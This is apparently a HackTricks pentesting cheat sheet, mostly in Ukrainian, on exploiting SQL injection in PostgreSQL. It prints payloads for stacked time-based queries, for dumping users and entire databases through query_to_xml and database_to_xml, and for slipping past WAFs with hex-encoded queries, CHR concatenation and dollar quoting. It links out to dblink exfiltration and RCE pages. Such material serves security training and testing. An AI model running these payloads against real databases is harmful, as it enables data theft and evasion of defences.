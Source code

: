 # PostgreSQL injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_вимагається вільне володіння польською мовою в письмовій та усній формі_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Ця сторінка має на меті пояснити різні трюки, які можуть допомогти вам експлуатувати SQL-ін'єкцію, виявлену в базі даних postgresql, і доповнити трюки, які ви можете знайти на** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

**Модуль PostgreSQL `dblink`** пропонує можливості для підключення до інших екземплярів PostgreSQL та виконання TCP-з'єднань. Ці функції, в поєднанні з функціональністю `COPY FROM`, дозволяють виконувати дії, такі як ескалація привілеїв, сканування портів та захоплення відповіді на виклик NTLM. Для детальних методів виконання цих атак перевірте, як [виконати ці атаки](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Приклад ексфільтрації за допомогою dblink та великих об'єктів**

Ви можете [**прочитати цей приклад**](dblink-lo\_import-data-exfiltration.md), щоб побачити приклад CTF **як завантажити дані всередині великих об'єктів, а потім ексфільтрувати вміст великих об'єктів всередині імені користувача** функції `dblink_connect`.

## PostgreSQL Attacks: Read/write, RCE, privesc

Перевірте, як скомпрометувати хост і ескалувати привілеї з PostgreSQL у:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF bypass

### PostgreSQL String functions

Маніпулювання рядками може допомогти вам **обійти WAF або інші обмеження**.\
[**На цій сторінці** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**ви можете знайти кілька корисних функцій рядків.**

### Stacked Queries

Пам'ятайте, що postgresql підтримує вкладені запити, але кілька додатків видадуть помилку, якщо буде повернено 2 відповіді, коли очікується лише 1. Але ви все ще можете зловживати вкладеними запитами через Time injection:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML трюки

**query\_to\_xml**

Ця функція поверне всі дані у форматі XML в одному файлі. Це ідеально, якщо ви хочете вивантажити багато даних в один рядок:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Ця функція вивантажить всю базу даних у форматі XML в лише 1 рядок (обережно, якщо база даних дуже велика, оскільки ви можете викликати DoS або навіть вашого власного клієнта):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

Якщо ви можете виконувати **запити**, передаючи їх **всередині рядка** (наприклад, використовуючи функцію **`query_to_xml`**). **Ви можете використовувати convert\_from, щоб передати рядок у вигляді шістнадцяткового коду і обійти фільтри таким чином:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Заборонені лапки

Якщо ви не можете використовувати лапки для вашого payload, ви можете обійти це за допомогою `CHR` для базових клауз (_конкатенація символів працює лише для базових запитів, таких як SELECT, INSERT, DELETE тощо. Це не працює для всіх SQL операторів_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Або з `$`. Ці запити повертають однакові результати:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Якщо вас цікавить **кар'єра в хакерстві** і ви хочете зламати незламне - **ми наймаємо!** (_вимагається вільне володіння польською мовою в письмовій та усній формі_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

